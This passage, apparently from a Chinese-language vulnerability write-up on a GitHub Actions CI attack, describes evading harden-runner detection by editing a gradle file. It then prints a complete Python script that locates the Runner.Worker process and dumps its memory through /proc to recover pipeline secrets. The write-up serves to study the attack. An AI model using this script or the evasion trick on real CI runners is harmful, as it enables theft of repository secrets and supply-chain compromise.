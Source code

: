 然后作者为了规避 harden-runner[11] 安全检测机制，只改了原仓库的 gradle，其他都是改 fork 到自己仓库的，因为在自己 fork 的仓库改，在原仓库也会留有 commit 信息（虽然最后还是告警了，原文还是有提到其他规避方法的）

由于执行 gradle 没有代入 secret 环境变量，这里需要用个 trick，即读取进程内存来获取 runner 里的 secret。因为就算是不同阶段的 job，一般都是在一个容器里执行。

```python
#!/usr/bin/env python3

# based on https://davidebove.com/blog/?p=1620

import sys
import os
import re

def get_pid():
    # https://stackoverflow.com/questions/2703640/process-list-on-linux-via-python
    pids = [pid for pid in os.listdir('/proc') if pid.isdigit()]

    for pid in pids:
        with open(os.path.join('/proc', pid, 'cmdline'), 'rb') as cmdline_f:
            if b'Runner.Worker' in cmdline_f.read():
                return pid

    raise Exception('Can not get pid of Runner.Worker')

if __name__ == "__main__":
    pid = get_pid()
    print(pid)

    map_path = f"/proc/{pid}/maps"
    mem_path = f"/proc/{pid}/mem"

    with open(map_path, 'r') as map_f, open(mem_path, 'rb', 0) as mem_f:
        for line in map_f.readlines():  # for each mapped region
            m = re.match(r'([0-9A-Fa-f]+)-([0-9A-Fa-f]+) ([-r])', line)
            if m.group(3) == 'r':  # readable region
                start = int(m.group(1), 16)
                end = int(m.group(2), 16)
                # hotfix: OverflowError: Python int too large to convert to C long
                # 18446744073699065856
                if start > sys.maxsize:
                    continue
                mem_f.seek(start)  # seek to region start
            
                try:
                    chunk = mem_f.read(end - start)  # read region contents
                    sys.stdout.buffer.write(chunk)
                except OSError:
                    continue
```

## 0x04 漏洞复现

